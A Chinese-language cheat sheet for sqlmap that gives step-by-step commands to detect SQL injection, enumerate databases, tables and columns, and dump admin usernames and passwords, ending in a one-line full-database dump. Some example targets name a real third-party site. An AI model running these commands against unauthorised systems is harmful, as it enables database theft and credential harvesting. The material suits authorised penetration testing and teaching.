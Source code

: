 #### Sqlmap常用命令

1.  **sqlmap.py -u "http://www.XXX.com/index.asp?id=1"**   

    判断id参数是否存在注入：结果中包含 “id” is Vulnerable  字段表示存在注入

    存在注入，下面的步骤才可以执行成功~

2.  sqlmap.py -u "http://www.XXX.com/index.asp?id=1"  --dbs

    列举能列出的所有数据库名

3.  sqlmap.py -u "http://www.XXX.com/index.asp?id=1" --current-db

    列出当前使用的数据库名，假设列出“sqltest”数据库

4.  sqlmap.py -u "http://www.XXX.com/index.asp?id=1"  --is-dba**

    判断该注入点是否有管理员权限：返回true  表示是管理员

5.  sqlmap.py -u "http://www.XXX.com/index.asp?id=1" -D "sqltest" --tables

    获取sqltest中的所有表，假设有"admin"表

6.  sqlmap.py -u "http://www.XXX.com/index.asp?id=1" -D "sqltest" -T "admin" --columns

    列举表admin的字段（列名），假设存在"username","password"字段

7.  sqlmap.py -u "http://www.XXX.com/index.asp?id=1" -D "sqltest" -T "admin" -C "username,password" --dump

    下载字段username，password的值，若询问是否破解md5加密，选择no即可

--help，可以查看所有参数，格式：python2 sqlmap.py -u http://www.xxx.com/index.asp?id=1 --[参数] --[参数]

常用参数如下：

| 参数                                     | 含义                                                         | 示例                                                         |
| ---------------------------------------- | ------------------------------------------------------------ | :----------------------------------------------------------- |
| -v                                       | 输出等级，0-6共7级，默认1级                                  | -v 3                                                         |
| --level                                  | 默认等级是1，cookie测试为2，use-agent或refer测试为3，host测试为5 | **sqlmap**.py -u "www.baidu.com/user.php?id=7" --level 3     |
| -u                                       | 指定目标，指定一个URL作为目标，还可以指定端口                | **sqlmap**.py -u "www.baidu.com/user.php?id=7"<br>**sqlmap**.py -url "www.baidu.com:8080/user.php?id=7" |
| --dbs                                    | 列出所有数据库名                                             | sqlmap.py -u "http://127.0.0.1/sqlinject.php?id=1" --dbs     |
| --current-db                             | 列出当前应用程序使用的的数据库                               | sqlmap.py -u "http://127.0.0.1/sqlinject.php?id=1" --current-db |
| --is-dba                                 | 判断注入点是否有管理员权限                                   | sqlmap.py -u "http://127.0.0.1/sqlinject.php?id=1" --is-dba  |
| -D 数据库名 --tables                     | 列出数据库的表名                                             | sqlmap.py -u "http://127.0.0.1/sqlinject.php?id=1" -D "security" --tables |
| -D 数据库名 -T 表名 --columns            | 列出字段名                                                   | sqlmap.py -u "http://127.0.0.1/sqlinject.php?id=1" -D "test" -T "test" --columns |
| -D 数据库名 -T 表名 -C "id,name"　--dump | 列出字段值                                                   | sqlmap.py -u "http://127.0.0.1/sqlinject.php?id=1" -D "test" -T "test" -C "id,name"　--dump |

**一句话脱库：sqlmap.py -u "http://127.0.0.1/sqlinject.php?id=1" -D "数据库名" --dump-all**

